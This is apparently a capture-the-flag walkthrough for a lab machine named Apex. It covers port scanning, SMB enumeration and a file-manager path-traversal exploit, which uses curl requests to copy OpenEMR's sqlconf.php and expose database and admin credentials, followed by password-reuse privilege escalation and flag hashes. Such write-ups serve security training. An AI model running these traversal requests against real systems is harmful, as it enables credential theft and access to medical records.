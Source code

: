 # APEX \| 20 POINTS

![](../.gitbook/assets/3748b708433445f2a29f0e6ac3c9c377.png)

## NMAP SCAN

```text
PORT     STATE SERVICE     REASON         VERSION
80/tcp   open  http?       syn-ack ttl 63
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       syn-ack ttl 63 MySQL (blocked - too many connection errors)
```

## SAMBA ENUMERATION

Two files and we only have Read access.

![](../.gitbook/assets/6e36353d07ab44d090943ee3853672b0.png)

## FeroxBuster 

### /filemanager

![](../.gitbook/assets/04d5a02812574d70a8373a2a85b9dba5.png)

The Sames files found in SMB Share

![](../.gitbook/assets/c29ca3721c3748a38629a2781922e38d.png)

![](../.gitbook/assets/5799af14cf8b478f9fe5e233d8972c8f.png)

### EXPLOIT \(LFI\)

* [https://www.exploit-db.com/exploits/45987](https://www.exploit-db.com/exploits/45987)

![](../.gitbook/assets/9a5ef58f110b44ea822307a63555f588.png)

### /OPENEMR

![](../.gitbook/assets/2e70b9881404463fbb3c55619beeadca.png)

![](../.gitbook/assets/b4f332360f1647f7aa4d58a5a57aca66.png)

To find how the files are stored in the web root, see the github page of the application

* [https://github.com/openemr/openemr](https://github.com/openemr/openemr)

The database creds are stored in /site/default/sql.conf.php

```text
curl -X POST -d "sub_action=copy&path=../../../../../../../var/www/openemr/sites/default/sqlconf.php" -H "Cookie: PHPSESSID=cq0h5q153nhptfk0kcp1nld88h" "http://192.168.159.145/filemanager/ajax_calls.php?action=copy_cut"

curl -X POST -d "path=Documents/" -H "Cookie: PHPSESSID=cq0h5q153nhptfk0kcp1nld88h" "http://192.168.159.145/filemanager/execute.php?action=paste_clipboard"

```

![](../.gitbook/assets/2260e17d2e0642689d30cc4f7a501c7f.png)

```text
openemr:C78maEQUIEuQ

```

![](../.gitbook/assets/7d3500cd67e74ffeb17efb1acccac66a.png)

![](../.gitbook/assets/86572206092442149603376967c995d4.png)

```text
admin:thedoctor
```

### EXPLOIT

* [https://www.exploit-db.com/exploits/45161](https://www.exploit-db.com/exploits/45161)

![](../.gitbook/assets/1b7754875f02488285713777078503ce.png)

## PRIVESC

* The password "thedoctor" is also the root password.

## FLAGS

### LOCAL.TXT

```text
31e3542adacf3a0e94478718821e1983
```

### PROOF.TXT

```text
2d45958a2dfeeb9b7f84568cc86d650d
```

